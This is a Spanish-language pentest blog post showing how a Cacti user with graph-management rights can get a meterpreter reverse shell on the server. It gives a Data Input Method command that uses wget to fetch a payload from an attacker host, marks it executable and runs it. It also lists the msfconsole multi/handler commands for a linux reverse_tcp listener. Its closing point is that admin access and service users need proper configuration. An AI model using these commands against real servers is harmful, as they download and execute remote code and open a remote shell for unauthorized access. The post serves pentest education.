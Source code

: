 ```yaml
---
title: "Obteniendo una sesión meterpreter a través de la interfaz web de Cacti"
author: Adan Alvarez
classes: wide
excerpt: "En la siguiente entrada se detalla como un usuario con permisos para gestionar gráficas en Cacti podría obtener acceso al servidor mediante una sesión meterpreter a través de una funcionalidad que ofrece Cacti."
categories:
  - Pentest
tags:
  - Red Team
  - Vulnerabilidades
---
```

En la siguiente entrada se detalla como un usuario con permisos para gestionar gráficas en [Cacti](http://www.cacti.net/) podría obtener acceso al servidor mediante una sesión meterpreter a través de una funcionalidad que ofrece Cacti.
{: style="text-align: justify;"}

En primer lugar creamos nuestro payload utilizando msfpayload:
{: style="text-align: justify;"}

[![msfpayload](https://donttouchmy.net/wp-content/uploads/2016/06/msfpayload-300x32.png)](https://donttouchmy.net/wp-content/uploads/2016/06/msfpayload.png)

Donde IP será la IP a la cual se conectará de forma reversa el payload.
{: style="text-align: justify;"}

Una vez creado el payload, deberemos dejar este en un lugar accesible para ser descargado desde Internet.
{: style="text-align: justify;"}

Después de esto accedemos a la interfaz web de cacti y vamos al apartado Data Input Methods. En este, añadimos un nuevo método del tipo Script/Command y como Input Script introducimos un wget para descargar el payload a la carpeta rra de cacti, introduciendo como IP la ip donde está alojado el fichero, un chmod para dar permisos de ejecución y por último indicamos que se ejecute el payload.
{: style="text-align: justify;"}

**Importante**: Se elige la carpeta rra porque cacti tiene que tener permisos en ella, ya que es la carpeta en la cual se guardan los ficheros rrd.
{: style="text-align: justify;"}

[![inputmethod](https://donttouchmy.net/wp-content/uploads/2016/06/inputmethod-300x73.png)](https://donttouchmy.net/wp-content/uploads/2016/06/inputmethod.png)
```
*wget -P <path_cacti>/rra/ IP/metercacti.bin; chmod 777 <path_cacti>/rra/metercacti.bin; <path_cacti>/rra/metercacti.bin*
```
Después de añadir el Data Input Method deberemos crear un Data Source que será el encargado de ejecutar este script. Para esto nos dirigimos a Data Sources y añadimos uno nuevo. La única importancia de este data source es que en Data Input Method se llame al método creado en el paso anterior:
{: style="text-align: justify;"}

[![datasource](https://donttouchmy.net/wp-content/uploads/2016/06/datasource-300x153.png)](https://donttouchmy.net/wp-content/uploads/2016/06/datasource.png)

Una vez seguidos estos pasos,  en la próxima ejecución de cacti, se llamará a nuestro método y se ejecutarán los comandos introducidos. Por esto, accedemos a msfconsole y nos quedamos escuchando a la espera de que se ejecuten.
{: style="text-align: justify;"}

[![msfconsole](https://donttouchmy.net/wp-content/uploads/2016/06/msfconsole-300x239.png)](https://donttouchmy.net/wp-content/uploads/2016/06/msfconsole.png)
```
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST IP [Donde IP es la ip donde se debe conectar el payload]
exploit
```
Con todo esto en la próxima ejecución de cacti tendremos nuestra sesión meterpreter:
{: style="text-align: justify;"}

[![sesión meterpreter ](https://donttouchmy.net/wp-content/uploads/2016/06/meterpreter-300x60.png)](https://donttouchmy.net/wp-content/uploads/2016/06/meterpreter.png)

Por último, los privilegios de esta sesión meterpreter serán los mismos que los del usuario que ejecuta el script, si de forma incorrecta se ha configurado el usuario root tendremos acceso total a la máquina. Con esto se demuestra lo importante que es configurar una aplicación de forma correcta y tener controlados los usuarios que tienen acceso al administrador.
{: style="text-align: justify;"}
